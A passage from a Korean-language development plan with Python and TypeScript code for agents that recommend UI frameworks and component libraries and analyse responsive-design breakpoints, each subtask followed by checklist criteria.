            'strengths': ['performance', 'reactivity', 'jsx_familiar', 'fine_grained'],
            'weaknesses': ['ecosystem', 'maturity', 'community_size', 'learning_resources']
        }
    }

    def __init__(self):
        self.analyzer = Agent(
            name="UI-Framework-Analyzer",
            model=AwsBedrock(id="anthropic.claude-3-sonnet-v2:0"),
            role="Senior frontend architect specializing in framework selection",
            instructions=[
                "Analyze project requirements for optimal UI framework selection",
                "Consider performance, SEO, team skills, and project timeline",
                "Evaluate ecosystem maturity and community support",
                "Recommend based on specific use cases and constraints",
                "Provide detailed pros/cons analysis",
                "Consider long-term maintenance and scalability"
            ],
            temperature=0.2
        )

        self.compatibility_checker = CompatibilityChecker()
        self.performance_analyzer = PerformanceAnalyzer()
        self.ecosystem_evaluator = EcosystemEvaluator()

    async def select_ui_framework(
        self,
        requirements: ProjectRequirements,
        constraints: Optional[Dict[str, Any]] = None
    ) -> UIFrameworkRecommendation:
        """프로젝트에 최적의 UI 프레임워크 선택"""

        # 1. 요구사항 분석
        ui_requirements = await self._extract_ui_requirements(requirements)

        # 2. 제약사항 확인
        constraints = constraints or {}
        team_experience = constraints.get('team_experience', [])
        timeline = constraints.get('timeline', 'flexible')
        budget = constraints.get('budget', 'medium')
        existing_stack = constraints.get('existing_stack', [])

        # 3. 프레임워크 평가
        framework_scores = {}
        evaluation_details = {}

        for framework, specs in self.FRAMEWORK_MATRIX.items():
            score, details = await self._evaluate_framework(
                framework,
                specs,
                ui_requirements,
                constraints
            )
            framework_scores[framework] = score
            evaluation_details[framework] = details

        # 4. 최적 프레임워크 선택
        best_framework = max(framework_scores.items(), key=lambda x: x[1]['total_score'])

        # 5. 상세 추천 생성
        recommendation = await self._generate_recommendation(
            best_framework[0],
            best_framework[1],
            framework_scores,
            evaluation_details,
            ui_requirements
        )

        return recommendation

    async def _extract_ui_requirements(
        self,
        requirements: ProjectRequirements
    ) -> Dict[str, Any]:
        """프로젝트 요구사항에서 UI 관련 요구사항 추출"""

        analysis_prompt = f"""
        Analyze the project requirements and extract UI-specific needs:

        Project Type: {requirements.project_type}
        Description: {requirements.description}
        Technical Requirements: {requirements.technical_requirements}
        Non-functional Requirements: {requirements.non_functional_requirements}

        Extract and categorize:
        1. Application type (SPA, MPA, SSG, SSR, PWA)
        2. SEO importance (critical/high/medium/low)
        3. Performance requirements
        4. Mobile support needs
        5. Real-time features
        6. Accessibility requirements
        7. Internationalization needs
        8. UI complexity level
        9. Interactive features
        10. Content management needs
        """

        analysis = await self.analyzer.arun(analysis_prompt)

        return self._parse_ui_analysis(analysis)

    async def _evaluate_framework(
        self,
        framework: str,
        specs: Dict[str, Any],
        ui_requirements: Dict[str, Any],
        constraints: Dict[str, Any]
    ) -> Tuple[Dict[str, float], Dict[str, Any]]:
        """개별 프레임워크 평가"""

        scores = {
            'requirement_match': 0.0,
            'performance': 0.0,
            'ecosystem': 0.0,
            'team_fit': 0.0,
            'timeline_fit': 0.0,
            'cost_effectiveness': 0.0,
            'future_proof': 0.0,
            'community_support': 0.0
        }

        details = {
            'matched_use_cases': [],
            'missing_features': [],
            'risks': [],
            'opportunities': []
        }

        # 요구사항 매칭 점수
        use_case_matches = []
        for use_case in specs['use_cases']:
            if self._matches_use_case(use_case, ui_requirements):
                use_case_matches.append(use_case)
                details['matched_use_cases'].append(use_case)

        scores['requirement_match'] = len(use_case_matches) / len(specs['use_cases']) if specs['use_cases'] else 0

        # 프로젝트 타입 매칭
        project_type_match = self._calculate_project_type_match(
            specs['type'],
            ui_requirements.get('app_type', 'spa')
        )
        scores['requirement_match'] = (scores['requirement_match'] + project_type_match) / 2

        # 성능 점수
        if ui_requirements.get('performance_critical'):
            scores['performance'] = self._score_mapping[specs['performance']]
        else:
            scores['performance'] = 0.7  # 기본 점수

        # SEO 점수 (SEO가 중요한 경우)
        if ui_requirements.get('seo_importance') in ['critical', 'high']:
            seo_score = self._score_mapping[specs['seo']]
            scores['requirement_match'] = (scores['requirement_match'] + seo_score) / 2

        # 생태계 점수
        scores['ecosystem'] = self._score_mapping[specs['ecosystem']]
        ecosystem_eval = await self.ecosystem_evaluator.evaluate(framework)
        scores['ecosystem'] = (scores['ecosystem'] + ecosystem_eval['score']) / 2

        # 팀 적합성
        if framework in constraints.get('team_experience', []):
            scores['team_fit'] = 1.0
            details['opportunities'].append('Team already experienced')
        else:
            learning_curve_score = {
                'easy': 0.8,
                'moderate': 0.6,
                'steep': 0.3
            }
            scores['team_fit'] = learning_curve_score.get(specs['learning_curve'], 0.5)

            if specs['learning_curve'] == 'steep':
                details['risks'].append('Steep learning curve for team')

        # 타임라인 적합성
        if constraints.get('timeline') == 'tight':
            if specs['learning_curve'] == 'easy' or framework in constraints.get('team_experience', []):
                scores['timeline_fit'] = 0.9
            else:
                scores['timeline_fit'] = 0.4
                details['risks'].append('May not meet tight timeline')
        else:
            scores['timeline_fit'] = 0.8

        # 비용 효율성
        scores['cost_effectiveness'] = await self._calculate_cost_effectiveness(
            framework,
            constraints.get('budget'),
            constraints.get('team_size', 1)
        )

        # 미래 지속성
        scores['future_proof'] = await self._evaluate_future_proof(framework, specs)

        # 커뮤니티 지원
        community_metrics = await self._get_community_metrics(framework)
        scores['community_support'] = self._calculate_community_score(community_metrics)

        # 가중치 적용하여 총점 계산
        weights = {
            'requirement_match': 0.25,
            'performance': 0.15,
            'ecosystem': 0.15,
            'team_fit': 0.15,
            'timeline_fit': 0.1,
            'cost_effectiveness': 0.1,
            'future_proof': 0.05,
            'community_support': 0.05
        }

        scores['total_score'] = sum(
            scores[key] * weights[key]
            for key in weights
        )

        return scores, details

    def _matches_use_case(self, use_case: str, requirements: Dict[str, Any]) -> bool:
        """사용 사례 매칭 확인"""

        use_case_mapping = {
            'complex_spa': requirements.get('ui_complexity') == 'high' and requirements.get('app_type') == 'spa',
            'dashboard': 'dashboard' in str(requirements.get('features', [])).lower(),
            'real_time': requirements.get('real_time_features', False),
            'enterprise': requirements.get('scale') == 'enterprise',
            'seo_critical': requirements.get('seo_importance') == 'critical',
            'ecommerce': 'ecommerce' in str(requirements.get('domain', '')).lower(),
            'blog': 'blog' in str(requirements.get('features', [])).lower(),
            'marketing': requirements.get('app_type') in ['ssg', 'marketing_site'],
            'rapid_prototype': requirements.get('timeline') == 'tight' and requirements.get('mvp', False),
            'small_medium': requirements.get('scale') in ['small', 'medium'],
            'performance_critical': requirements.get('performance_critical', False),
            'complex_forms': 'forms' in str(requirements.get('features', [])).lower() and requirements.get('ui_complexity') == 'high'
        }

        return use_case_mapping.get(use_case, False)

    async def _generate_recommendation(
        self,
        selected_framework: str,
        scores: Dict[str, float],
        all_scores: Dict[str, Dict[str, float]],
        evaluation_details: Dict[str, Dict[str, Any]],
        ui_requirements: Dict[str, Any]
    ) -> UIFrameworkRecommendation:
        """상세 추천 생성"""

        # AI를 통한 추천 이유 생성
        recommendation_prompt = f"""
        Generate a detailed recommendation for {selected_framework} based on:

        Requirements: {ui_requirements}
        Scores: {scores}
        Evaluation Details: {evaluation_details[selected_framework]}

        Provide:
        1. Top 3-5 reasons why this framework is recommended
        2. Main advantages for this specific project
        3. Potential challenges and how to address them
        4. Implementation recommendations
        """

        ai_recommendation = await self.analyzer.arun(recommendation_prompt)
        parsed_recommendation = self._parse_recommendation(ai_recommendation)

        # 대안 프레임워크 준비
        alternatives = self._get_alternatives(
            selected_framework,
            all_scores,
            evaluation_details
        )

        return UIFrameworkRecommendation(
            framework=selected_framework,
            confidence_score=scores['total_score'],
            reasons=parsed_recommendation['reasons'],
            pros=self._get_framework_pros(selected_framework, ui_requirements),
            cons=self._get_framework_cons(selected_framework, ui_requirements),
            alternatives=alternatives,
            setup_complexity=self._get_setup_complexity(selected_framework),
            learning_curve=self.FRAMEWORK_MATRIX[selected_framework]['learning_curve'],
            community_support=self.FRAMEWORK_MATRIX[selected_framework]['ecosystem'],
            performance_score=scores['performance'],
            seo_friendliness=self._score_mapping[self.FRAMEWORK_MATRIX[selected_framework]['seo']],
            mobile_readiness=self._evaluate_mobile_readiness(selected_framework),
            ecosystem_maturity=scores['ecosystem']
        )
```

**검증 기준**:

- [ ] 6개 주요 프레임워크 평가 지원
- [ ] 다차원 평가 기준 적용
- [ ] 팀 경험 및 제약사항 반영
- [ ] AI 기반 추천 이유 생성

#### SubTask 4.11.2: UI 컴포넌트 라이브러리 매칭

**담당자**: 프론트엔드 개발자  
**예상 소요시간**: 12시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/ui-component-matcher.ts
interface ComponentLibrary {
  name: string;
  framework: string;
  type: 'design-system' | 'ui-kit' | 'component-library' | 'css-framework';
  features: string[];
  customizability: 'high' | 'medium' | 'low';
  accessibility: 'wcag-aaa' | 'wcag-aa' | 'wcag-a' | 'basic';
  mobileSupport: boolean;
  themingSupport: boolean;
  popularity: number; // GitHub stars
  license: string;
  cost: 'free' | 'paid' | 'freemium';
  bundleSize: number; // in KB
  treeShaking: boolean;
  typescript: boolean;
  designLanguage?: string;
}

interface ComponentPreferences {
  designStyle: 'material' | 'minimal' | 'playful' | 'professional' | 'custom';
  customizationLevel: 'high' | 'medium' | 'low';
  budget: 'free' | 'low' | 'medium' | 'high';
  accessibility: 'critical' | 'important' | 'nice-to-have';
  mobileFirst: boolean;
  darkMode: boolean;
  rtlSupport: boolean;
}

class UIComponentLibraryMatcher {
  private libraries: Map<string, ComponentLibrary[]> = new Map([
    [
      'react',
      [
        {
          name: 'Material-UI (MUI)',
          framework: 'react',
          type: 'design-system',
          features: ['comprehensive', 'material-design', 'theming', 'rtl', 'dense-mode'],
          customizability: 'high',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 85000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 130,
          treeShaking: true,
          typescript: true,
          designLanguage: 'Material Design',
        },
        {
          name: 'Ant Design',
          framework: 'react',
          type: 'design-system',
          features: ['enterprise', 'form-heavy', 'data-viz', 'i18n', 'pro-components'],
          customizability: 'medium',
          accessibility: 'wcag-a',
          mobileSupport: true,
          themingSupport: true,
          popularity: 82000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 150,
          treeShaking: true,
          typescript: true,
          designLanguage: 'Ant Design Language',
        },
        {
          name: 'Chakra UI',
          framework: 'react',
          type: 'component-library',
          features: ['modern', 'modular', 'accessible', 'dark-mode', 'emotion-based'],
          customizability: 'high',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 32000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 90,
          treeShaking: true,
          typescript: true,
        },
        {
          name: 'Tailwind UI',
          framework: 'react',
          type: 'ui-kit',
          features: ['utility-first', 'templates', 'responsive', 'customizable'],
          customizability: 'high',
          accessibility: 'basic',
          mobileSupport: true,
          themingSupport: false,
          popularity: 15000,
          license: 'Commercial',
          cost: 'paid',
          bundleSize: 20,
          treeShaking: true,
          typescript: true,
        },
        {
          name: 'shadcn/ui',
          framework: 'react',
          type: 'component-library',
          features: ['copy-paste', 'radix-based', 'tailwind-styled', 'accessible'],
          customizability: 'high',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 25000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 0, // Copy-paste, no bundle
          treeShaking: false, // N/A
          typescript: true,
        },
        {
          name: 'Arco Design',
          framework: 'react',
          type: 'design-system',
          features: ['comprehensive', 'ByteDance', 'pro-tools', 'design-lab'],
          customizability: 'medium',
          accessibility: 'wcag-a',
          mobileSupport: true,
          themingSupport: true,
          popularity: 4000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 140,
          treeShaking: true,
          typescript: true,
        },
      ],
    ],
    [
      'vue',
      [
        {
          name: 'Vuetify',
          framework: 'vue',
          type: 'design-system',
          features: ['material-design', 'comprehensive', 'rtl', 'blueprints'],
          customizability: 'high',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 38000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 120,
          treeShaking: true,
          typescript: true,
          designLanguage: 'Material Design',
        },
        {
          name: 'Element Plus',
          framework: 'vue',
          type: 'ui-kit',
          features: ['enterprise', 'form-components', 'i18n', 'date-picker'],
          customizability: 'medium',
          accessibility: 'wcag-a',
          mobileSupport: true,
          themingSupport: true,
          popularity: 21000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 130,
          treeShaking: true,
          typescript: true,
        },
        {
          name: 'Naive UI',
          framework: 'vue',
          type: 'component-library',
          features: ['modern', 'typescript-first', 'tree-shakeable', 'customizable'],
          customizability: 'high',
          accessibility: 'wcag-a',
          mobileSupport: true,
          themingSupport: true,
          popularity: 12000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 100,
          treeShaking: true,
          typescript: true,
        },
        {
          name: 'PrimeVue',
          framework: 'vue',
          type: 'design-system',
          features: ['rich-components', 'themes', 'designer-tool', 'templates'],
          customizability: 'medium',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 5000,
          license: 'MIT',
          cost: 'freemium',
          bundleSize: 150,
          treeShaking: true,
          typescript: true,
        },
      ],
    ],
    [
      'angular',
      [
        {
          name: 'Angular Material',
          framework: 'angular',
          type: 'design-system',
          features: ['official', 'material-design', 'cdk', 'schematics'],
          customizability: 'medium',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 23000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 140,
          treeShaking: true,
          typescript: true,
          designLanguage: 'Material Design',
        },
        {
          name: 'NG-ZORRO',
          framework: 'angular',
          type: 'design-system',
          features: ['ant-design', 'enterprise', 'i18n', 'pro-components'],
          customizability: 'medium',
          accessibility: 'wcag-a',
          mobileSupport: true,
          themingSupport: true,
          popularity: 8000,
          license: 'MIT',
          cost: 'free',
          bundleSize: 160,
          treeShaking: true,
          typescript: true,
          designLanguage: 'Ant Design Language',
        },
        {
          name: 'PrimeNG',
          framework: 'angular',
          type: 'design-system',
          features: ['rich-components', 'themes', 'templates', 'designer'],
          customizability: 'medium',
          accessibility: 'wcag-aa',
          mobileSupport: true,
          themingSupport: true,
          popularity: 9000,
          license: 'MIT',
          cost: 'freemium',
          bundleSize: 170,
          treeShaking: true,
          typescript: true,
        },
      ],
    ],
  ]);

  private evaluationEngine: ComponentEvaluationEngine;
  private compatibilityChecker: CompatibilityChecker;

  constructor() {
    this.evaluationEngine = new ComponentEvaluationEngine();
    this.compatibilityChecker = new CompatibilityChecker();
  }

  async matchComponentLibrary(
    framework: string,
    requirements: UIRequirements,
    preferences: ComponentPreferences,
  ): Promise<ComponentLibraryRecommendation[]> {
    const frameworkLibraries = this.libraries.get(framework) || [];

    if (frameworkLibraries.length === 0) {
      throw new Error(`No component libraries found for framework: ${framework}`);
    }

    // 점수 계산
    const scoredLibraries = await Promise.all(
      frameworkLibraries.map(async (library) => {
        const score = await this.calculateLibraryScore(library, requirements, preferences);
        const compatibility = await this.compatibilityChecker.check(library, requirements);

        return {
          library,
          score,
          compatibility,
          evaluation: await this.evaluationEngine.evaluate(library, requirements),
        };
      }),
    );

    // 필터링 및 정렬
    const eligibleLibraries = scoredLibraries
      .filter((item) => item.compatibility.isCompatible)
      .sort((a, b) => b.score.total - a.score.total);

    // 상위 3개 추천
    const topLibraries = eligibleLibraries.slice(0, 3);

    // 추천 생성
    return Promise.all(
      topLibraries.map(async ({ library, score, evaluation }) => {
        const pros = await this.generatePros(library, requirements, preferences);
        const cons = await this.generateCons(library, requirements, preferences);
        const setupGuide = await this.generateSetupGuide(framework, library);
        const comparisonData = await this.generateComparisonData(library, topLibraries[0].library);

        return {
          library,
          score,
          pros,
          cons,
          setupGuide,
          comparisonData,
          evaluation,
          estimatedSetupTime: this.estimateSetupTime(library, requirements),
          maintenanceEffort: this.estimateMaintenanceEffort(library),
          migrationPath: await this.generateMigrationPath(requirements.currentLibrary, library),
        };
      }),
    );
  }

  private async calculateLibraryScore(
    library: ComponentLibrary,
    requirements: UIRequirements,
    preferences: ComponentPreferences,
  ): Promise<LibraryScore> {
    const scores = {
      featureMatch: 0,
      accessibility: 0,
      customization: 0,
      popularity: 0,
      cost: 0,
      designMatch: 0,
      performance: 0,
      developerExperience: 0,
    };

    // 기능 매칭 (30%)
    const requiredFeatures = requirements.requiredComponents || [];
    const matchedFeatures = requiredFeatures.filter((req) =>
      library.features.some(
        (feat) => feat.toLowerCase().includes(req.toLowerCase()) || this.isFeatureMatch(req, feat),
      ),
    );
    scores.featureMatch = matchedFeatures.length / Math.max(requiredFeatures.length, 1);

    // 접근성 (20%)
    const accessibilityScores = {
      'wcag-aaa': 1.0,
      'wcag-aa': 0.8,
      'wcag-a': 0.6,
      basic: 0.3,
    };

    const requiredAccessibility = this.mapAccessibilityRequirement(preferences.accessibility);
    scores.accessibility =
      library.accessibility >= requiredAccessibility
        ? 1.0
        : accessibilityScores[library.accessibility] || 0.3;

    // 커스터마이징 (15%)
    const customizationMap = { high: 1.0, medium: 0.7, low: 0.4 };
    const requiredCustomization = customizationMap[preferences.customizationLevel];
    const libraryCustomization = customizationMap[library.customizability];
    scores.customization =
      libraryCustomization >= requiredCustomization ? 1.0 : libraryCustomization;

    // 인기도 (10%)
    scores.popularity = Math.min(Math.log10(library.popularity) / 5, 1);

    // 비용 (10%)
    if (preferences.budget === 'free' && library.cost === 'free') {
      scores.cost = 1.0;
    } else if (preferences.budget === 'high') {
      scores.cost = 0.9; // 예산이 충분하면 비용은 덜 중요
    } else if (library.cost === 'free') {
      scores.cost = 1.0;
    } else if (library.cost === 'freemium') {
      scores.cost = 0.7;
    } else {
      scores.cost = preferences.budget === 'low' ? 0.2 : 0.5;
    }

    // 디자인 스타일 매칭 (10%)
    scores.designMatch = this.matchDesignStyle(library, preferences.designStyle);

    // 성능 (5%)
    const performanceScore = 1 - library.bundleSize / 200; // 200KB를 기준으로
    scores.performance = Math.max(0, Math.min(1, performanceScore));

    // 개발자 경험 (10%)
    let dxScore = 0.5;
    if (library.typescript) dxScore += 0.2;
    if (library.treeShaking) dxScore += 0.15;
    if (library.themingSupport) dxScore += 0.15;
    scores.developerExperience = Math.min(dxScore, 1);

    // 가중치 적용
    const weights = {
      featureMatch: 0.3,
      accessibility: 0.2,
      customization: 0.15,
      popularity: 0.1,
      cost: 0.1,
      designMatch: 0.1,
      performance: 0.05,
      developerExperience: 0.1,
    };

    const total = Object.entries(scores).reduce(
      (sum, [key, value]) => sum + value * weights[key],
      0,
    );

    return { ...scores, total };
  }

  private matchDesignStyle(library: ComponentLibrary, preferredStyle: string): number {
    const styleMapping = {
      material: ['Material-UI', 'Vuetify', 'Angular Material'],
      minimal: ['Chakra UI', 'shadcn/ui', 'Tailwind UI'],
      professional: ['Ant Design', 'Element Plus', 'Arco Design'],
      playful: ['Chakra UI', 'Naive UI'],
      custom: ['shadcn/ui', 'Tailwind UI'],
    };

    const matchingLibraries = styleMapping[preferredStyle] || [];
    return matchingLibraries.includes(library.name) ? 1.0 : 0.5;
  }

  private async generateSetupGuide(
    framework: string,
    library: ComponentLibrary,
  ): Promise<SetupGuide> {
    const guide: SetupGuide = {
      steps: [],
      estimatedTime: 0,
      prerequisites: [],
      troubleshooting: [],
      bestPractices: [],
    };

    // 설치 단계
    guide.steps.push({
      order: 1,
      title: 'Install the library',
      command: this.getInstallCommand(library.name, framework),
      description: `Add ${library.name} to your ${framework} project`,
      timeEstimate: 2,
    });

    // 초기 설정
    if (library.themingSupport) {
      guide.steps.push({
        order: 2,
        title: 'Configure theme',
        code: this.generateThemeConfig(framework, library.name),
        description: 'Set up custom theme configuration',
        timeEstimate: 10,
      });
    }

    // 프레임워크별 특수 설정
    const frameworkSetup = await this.generateFrameworkSpecificSetup(framework, library);
    guide.steps.push(...frameworkSetup);

    // 모범 사례
    guide.bestPractices = this.generateBestPractices(library);

    // 문제 해결
    guide.troubleshooting = this.generateTroubleshootingGuide(framework, library);

    // 시간 추정
    guide.estimatedTime = guide.steps.reduce((sum, step) => sum + step.timeEstimate, 0);

    return guide;
  }
}
```

**검증 기준**:

- [ ] 프레임워크별 라이브러리 데이터베이스
- [ ] 8개 평가 기준 적용
- [ ] 맞춤형 설치 가이드 생성
- [ ] 마이그레이션 경로 제공

#### SubTask 4.11.3: 반응형/적응형 디자인 분석

**담당자**: UI/UX 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```python
# backend/src/agents/implementations/ui_responsive_analyzer.py
from typing import Dict, List, Tuple, Optional
from dataclasses import dataclass
from enum import Enum
import asyncio

class DeviceType(Enum):
    MOBILE_SMALL = "mobile_small"      # < 375px
    MOBILE = "mobile"                  # 375-414px
    MOBILE_LARGE = "mobile_large"      # 415-767px
    TABLET = "tablet"                  # 768-1024px
    DESKTOP = "desktop"                # 1025-1440px
    DESKTOP_LARGE = "desktop_large"    # > 1440px
    TV = "tv"                         # > 1920px
    WATCH = "watch"                   # < 320px

@dataclass
class ResponsiveStrategy:
    approach: str  # 'responsive', 'adaptive', 'hybrid'
    breakpoints: Dict[str, int]
    layout_strategy: Dict[str, Any]
    content_adaptation: Dict[str, Any]
    performance_optimizations: List[str]
    css_methodology: str
    grid_system: str
    mobile_first: bool
    special_considerations: List[str]

class ResponsiveDesignAnalyzer:
    """반응형/적응형 디자인 요구사항 분석 및 전략 수립"""

    BREAKPOINT_STRATEGIES = {
        'bootstrap': {
            'xs': 0,
            'sm': 576,
            'md': 768,
            'lg': 992,
            'xl': 1200,
            'xxl': 1400
        },
        'tailwind': {
            'sm': 640,
            'md': 768,
            'lg': 1024,
            'xl': 1280,
            '2xl': 1536
        },
        'material': {
            'xs': 0,
            'sm': 600,
            'md': 960,
            'lg': 1280,
            'xl': 1920
        },
        'custom_content_based': {}  # 동적으로 생성
    }

    LAYOUT_PATTERNS = {
        'card_grid': {
            'mobile': 'single_column',
            'tablet': 'two_column',
            'desktop': 'three_column',
            'desktop_large': 'four_column'
        },
        'sidebar_layout': {
            'mobile': 'stacked',
            'tablet': 'collapsible_sidebar',
            'desktop': 'fixed_sidebar'
        },
        'dashboard': {
            'mobile': 'tab_navigation',
            'tablet': 'condensed_grid',
            'desktop': 'full_grid'
        }
    }

    def __init__(self):
        self.device_analyzer = DeviceTargetAnalyzer()
        self.layout_optimizer = LayoutOptimizer()
        self.performance_checker = MobilePerformanceChecker()
        self.content_strategist = ContentAdaptationStrategist()

    async def analyze_responsive_requirements(
        self,
        project_requirements: ProjectRequirements,
        target_devices: List[DeviceType],
        ui_framework: str
    ) -> ResponsiveStrategy:
        """반응형 디자인 요구사항 분석"""

        # 1. 타겟 디바이스 분석
        device_analysis = await self.device_analyzer.analyze_targets(
            target_devices,
            project_requirements
        )

        # 2. 콘텐츠 우선순위 결정
        content_priority = await self._determine_content_priority(
            project_requirements,
            device_analysis
        )

        # 3. 레이아웃 전략 수립
        layout_strategy = await self.layout_optimizer.optimize_for_devices(
            content_priority,
            device_analysis,
            ui_framework
        )

        # 4. 성능 고려사항
        performance_requirements = await self.performance_checker.check_requirements(
            target_devices,
            project_requirements
        )

        # 5. 반응형 vs 적응형 결정
        design_approach = self._decide_design_approach(
            device_analysis,
            performance_requirements,
            project_requirements
        )

        # 6. 브레이크포인트 전략
        breakpoints = await self._determine_breakpoints(
            design_approach,
            device_analysis,
            content_priority
        )

        return ResponsiveStrategy(
            approach=design_approach,
            breakpoints=breakpoints,
            layout_strategy=layout_strategy,
            content_adaptation=content_priority,
            performance_optimizations=performance_requirements.optimizations,
            css_methodology=self._select_css_methodology(ui_framework, design_approach),
            grid_system=self._select_grid_system(ui_framework, layout_strategy),
            mobile_first=self._should_use_mobile_first(device_analysis),
            special_considerations=self._get_special_considerations(
                project_requirements,
                device_analysis
            )
        )

    def _decide_design_approach(
        self,
        device_analysis: DeviceAnalysis,
        performance_req: PerformanceRequirements,
        project_req: ProjectRequirements
    ) -> str:
        """반응형 vs 적응형 디자인 결정"""

        adaptive_score = 0
        responsive_score = 0

        # 적응형이 유리한 경우
        if device_analysis.has_vastly_different_layouts:
            adaptive_score += 3
        if performance_req.requires_device_specific_optimization:
            adaptive_score += 2
        if project_req.has_native_app_requirements:
            adaptive_score += 2
        if len(device_analysis.target_devices) <= 2:
            adaptive_score += 1

        # 반응형이 유리한 경우
        if device_analysis.content_is_uniform:
            responsive_score += 3
        if project_req.requires_future_device_support:
            responsive_score += 2
        if project_req.budget_constraint == "low":
            responsive_score += 2
        if device_analysis.target_devices_count > 3:
            responsive_score += 1

        # 결정
        if adaptive_score > responsive_score * 1.5:
            return "adaptive"
        elif responsive_score > adaptive_score * 1.5:
            return "responsive"
        else:
            return "hybrid"

    async def _determine_breakpoints(
        self,
        approach: str,
        device_analysis: DeviceAnalysis,
        content_priority: Dict[str, Any]
    ) -> Dict[str, int]:
        """최적의 브레이크포인트 결정"""

        if approach == "responsive":
            # 콘텐츠 기반 브레이크포인트
            return await self._calculate_content_based_breakpoints(
                content_priority,
                device_analysis
            )
        elif approach == "adaptive":
            # 디바이스 특정 브레이크포인트
            return self._get_device_specific_breakpoints(device_analysis.target_devices)
        else:
            # 하이브리드: 주요 디바이스 + 콘텐츠 기반
            device_breakpoints = self._get_device_specific_breakpoints(
                device_analysis.primary_devices
            )
            content_breakpoints = await self._calculate_content_based_breakpoints(
                content_priority,
                device_analysis
            )
            return self._merge_breakpoints(device_breakpoints, content_breakpoints)

    async def _calculate_content_based_breakpoints(
        self,
        content_priority: Dict[str, Any],
        device_analysis: DeviceAnalysis
    ) -> Dict[str, int]:
        """콘텐츠 기반 브레이크포인트 계산"""

        breakpoints = {}

        # 최소 읽기 너비 (45-75자)
        min_reading_width = 45 * 8  # 약 360px (8px per character)
        optimal_reading_width = 65 * 8  # 약 520px
        max_reading_width = 75 * 8  # 약 600px

        # 콘텐츠 타입별 브레이크포인트
        if content_priority.get('content_type') == 'text_heavy':
            breakpoints['sm'] = min_reading_width
            breakpoints['md'] = optimal_reading_width
            breakpoints['lg'] = max_reading_width * 2  # 2열 레이아웃
            breakpoints['xl'] = max_reading_width * 3  # 3열 레이아웃

        elif content_priority.get('content_type') == 'media_heavy':
            # 이미지/비디오 중심
            breakpoints['sm'] = 480   # 모바일 최적화 이미지
            breakpoints['md'] = 768   # 태블릿 최적화
            breakpoints['lg'] = 1200  # 데스크톱 HD
            breakpoints['xl'] = 1920  # Full HD

        elif content_priority.get('content_type') == 'data_heavy':
            # 테이블/차트 중심
            breakpoints['sm'] = 640   # 최소 테이블 너비
            breakpoints['md'] = 1024  # 편안한 테이블 보기
            breakpoints['lg'] = 1440  # 다중 차트 표시

        else:
            # 기본값 (균형잡힌 콘텐츠)
            breakpoints = self.BREAKPOINT_STRATEGIES['tailwind'].copy()

        return breakpoints

    def _select_css_methodology(self, ui_framework: str, approach: str) -> str:
        """CSS 방법론 선택"""

        framework_preferences = {
            'react': ['css-modules', 'styled-components', 'emotion'],
            'vue': ['scoped-css', 'css-modules'],
            'angular': ['view-encapsulation', 'scss'],
            'svelte': ['scoped-css'],
            'nextjs': ['css-modules', 'styled-jsx']
        }

        if approach == 'responsive':
            # 반응형은 유틸리티 우선 접근이 효율적
            return 'utility-first' if ui_framework in ['react', 'vue'] else 'bem'
        elif approach == 'adaptive':
            # 적응형은 컴포넌트 기반이 관리하기 쉬움
            return framework_preferences.get(ui_framework, ['bem'])[0]
        else:
            # 하이브리드는 혼합 접근
            return 'hybrid-css-in-js'

    async def generate_responsive_implementation(
        self,
        strategy: ResponsiveStrategy,
        ui_framework: str,
        component_library: str
    ) -> Dict[str, Any]:
        """반응형 구현 코드 생성"""

        implementation = {
            'css_framework': await self._generate_css_framework(strategy),
            'grid_implementation': await self._generate_grid_system(
                strategy,
                ui_framework
            ),
            'breakpoint_utilities': await self._generate_breakpoint_utilities(
                strategy.breakpoints,
                ui_framework
            ),
            'responsive_components': await self._generate_responsive_components(
                strategy,
                ui_framework,
                component_library
            ),
            'performance_utilities': await self._generate_performance_utilities(
                strategy.performance_optimizations
            )
        }

        return implementation

    async def _generate_css_framework(
        self,
        strategy: ResponsiveStrategy
    ) -> str:
        """CSS 프레임워크 생성"""

        if strategy.mobile_first:
            return self._generate_mobile_first_css(strategy)
        else:
            return self._generate_desktop_first_css(strategy)

    def _generate_mobile_first_css(self, strategy: ResponsiveStrategy) -> str:
        """모바일 우선 CSS 생성"""

        css = """
/* Mobile First Responsive Framework */

/* Base styles (Mobile) */
:root {
  --container-padding: 1rem;
  --max-width: 100%;
}

.container {
  width: 100%;
  padding: 0 var(--container-padding);
  margin: 0 auto;
}

/* Typography scaling */
html {
  font-size: 16px;
}

h1 { font-size: 1.75rem; }
h2 { font-size: 1.5rem; }
h3 { font-size: 1.25rem; }
p { font-size: 1rem; }

/* Grid system - Mobile first */
.grid {
  display: grid;
  gap: 1rem;
  grid-template-columns: 1fr;
}
"""

        # 브레이크포인트별 스타일
        for name, width in sorted(strategy.breakpoints.items(), key=lambda x: x[1]):
            css += f"""
/* {name.upper()} - {width}px and up */
@media (min-width: {width}px) {{
  :root {{
    --container-padding: 1.5rem;
    --max-width: {min(width - 40, 1400)}px;
  }}

  .container {{
    max-width: var(--max-width);
  }}

  /* Typography scaling */
  html {{
    font-size: {16 + (list(strategy.breakpoints.keys()).index(name) * 2)}px;
  }}

  /* Grid variations */
  .grid-{name}-2 {{ grid-template-columns: repeat(2, 1fr); }}
  .grid-{name}-3 {{ grid-template-columns: repeat(3, 1fr); }}
  .grid-{name}-4 {{ grid-template-columns: repeat(4, 1fr); }}

  /* Display utilities */
  .hide-{name} {{ display: none !important; }}
  .show-{name} {{ display: block !important; }}
}}
"""

        return css

    async def _generate_responsive_components(
        self,
        strategy: ResponsiveStrategy,
        ui_framework: str,
        component_library: str
    ) -> Dict[str, str]:
